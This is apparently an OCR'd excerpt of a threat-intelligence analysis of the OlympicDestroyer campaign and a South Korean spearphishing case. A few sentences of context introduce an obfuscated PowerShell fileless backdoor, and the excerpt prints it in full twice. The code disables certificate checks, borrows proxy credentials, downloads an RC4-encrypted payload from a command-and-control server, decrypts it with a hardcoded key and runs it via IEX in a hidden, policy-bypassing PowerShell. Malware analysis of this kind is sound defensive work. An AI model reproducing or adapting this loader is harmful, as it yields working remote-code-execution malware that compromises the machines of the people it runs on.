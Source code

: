 The PowerShell scripts listed below were used in the weaponized documents and as standalone backdoors. As standalone fileless backdoors, they were built and obfuscated using the same tool. Both scripts use a similar URL structure and both implement RC4 in PowerShell, as well as using a secret key passed to the server in base64 via cookies.


Spearphishing case in South Korea
Powershell found on OlympicDestroyer victim








(  gCi VariABLE:FzS3AV  )."VaLUE"::"expecT100cOnTiNUe"=0;
 ${wC}=^&NEW-ObjecT System.Net.Webclient;${u}=Mozilla/5.0 (Windows NT 6.1;WOW64; Trident/7.0; rv:11.0)like Gecko;
 (  GCI VARiabLe:fZS3aV )."vAlUe"::"seRVeRCeRTiFICaTEVALIDATIoNCALlbAck" = {${tRUE}};
 ${wC}."hEADERs".Add.Invoke(User-Agent,${U});
 ${WC}."PROXy"=  ( variaBLe  ("fX32R") -VAlUeO )::"DefaultWebProxy";
 ${wc}."pRoxY"."CREdENtials" =  ( GET-vaRiABle ('hE7KU'))."VAlue"::"dEFauLTNeTWOrkCREdENTIALs";
 ${K}=  $XNLO::"asCiI".GetBytes.Invoke(5e2988cfc41d844e2114dceb8851d0bb);
 ${R}=
 {
  ${D},${K}=${ArGs};
  ${s}=0..255;0..255^|^&('%')
  {
    ${j}=(${j}+${s}[${_}]+${k}[${_}%${K}."couNt"])%256;
    ${s}[${_}],${S}[${J}]=${s}[${J}],${S}[${_}]
  };
  ${d}^|^&('%')
  {
    ${I}=(${I}+1)%256;
    ${h}=(${H}+${s}[${I}])%256;
    ${S}[${I}],${s}[${H}]=${s}[${H}],${S}[${I}];
    ${_}-BxoR${S}[(${s}[${I}]+${S}[${H}])%256]}
};
 ${Wc}."hEadeRS".Add.Invoke(cookie,session=ABWjqj0NiqToVn0TW2FTlHIAApw=);
 ${SER}=https://minibo***[.]cl:443;
 ${T}=/components/com_tags/controllers/default_tags.php;
 ${dATa}=${Wc}.DownloadData.Invoke(${seR}+${T});
 ${IV}=${DATA}[0..3];
 ${dAta}=${DaTA}[4..${dAtA}.length];
 -jOin[ChaR[]](^& ${R} ${DAtA} (${IV}+${K}))^|.IEX  &&SeT   RMN=ecHo InvoKe-expRESsIon  ([ENVirOnMeNt]::gETeNvIroNMENTvarIaBlE('svTI','procEsS'))  ^| pOWErshEll -NOnint  -wiNdOWSt hiddeN -NoEXiT  -NoprOFilE -ExECuTiONPOLIcy  bYpASs     -  && CMd.exE   /c%Rmn%




1234567891011121314151617181920212223242526272829

(  gCi VariABLE:FzS3AV  )."VaLUE"::"expecT100cOnTiNUe"=0; ${wC}=^&NEW-ObjecT System.Net.Webclient;${u}=Mozilla/5.0 (Windows NT 6.1;WOW64; Trident/7.0; rv:11.0)like Gecko; (  GCI VARiabLe:fZS3aV )."vAlUe"::"seRVeRCeRTiFICaTEVALIDATIoNCALlbAck" = {${tRUE}}; ${wC}."hEADERs".Add.Invoke(User-Agent,${U}); ${WC}."PROXy"=  ( variaBLe  ("fX32R") -VAlUeO )::"DefaultWebProxy"; ${wc}."pRoxY"."CREdENtials" =  ( GET-vaRiABle ('hE7KU'))."VAlue"::"dEFauLTNeTWOrkCREdENTIALs"; ${K}=  $XNLO::"asCiI".GetBytes.Invoke(5e2988cfc41d844e2114dceb8851d0bb); ${R}= {  ${D},${K}=${ArGs};  ${s}=0..255;0..255^|^&('%')  {    ${j}=(${j}+${s}[${_}]+${k}[${_}%${K}."couNt"])%256;    ${s}[${_}],${S}[${J}]=${s}[${J}],${S}[${_}]  };  ${d}^|^&('%')  {    ${I}=(${I}+1)%256;    ${h}=(${H}+${s}[${I}])%256;    ${S}[${I}],${s}[${H}]=${s}[${H}],${S}[${I}];    ${_}-BxoR${S}[(${s}[${I}]+${S}[${H}])%256]}}; ${Wc}."hEadeRS".Add.Invoke(cookie,session=ABWjqj0NiqToVn0TW2FTlHIAApw=); ${SER}=https://minibo***[.]cl:443; ${T}=/components/com_tags/controllers/default_tags.php; ${dATa}=${Wc}.DownloadData.Invoke(${seR}+${T}); ${IV}=${DATA}[0..3]; ${dAta}=${DaTA}[4..${dAtA}.length]; -jOin[ChaR[]](^& ${R} ${DAtA} (${IV}+${K}))^|.IEX  &&SeT   RMN=ecHo InvoKe-expRESsIon  ([ENVirOnMeNt]::gETeNvIroNMENTvarIaBlE('svTI','procEsS'))  ^| pOWErshEll -NOnint  -wiNdOWSt hiddeN -NoEXiT  -NoprOFilE -ExECuTiONPOLIcy  bYpASs     -  && CMd.exE   /c%Rmn%
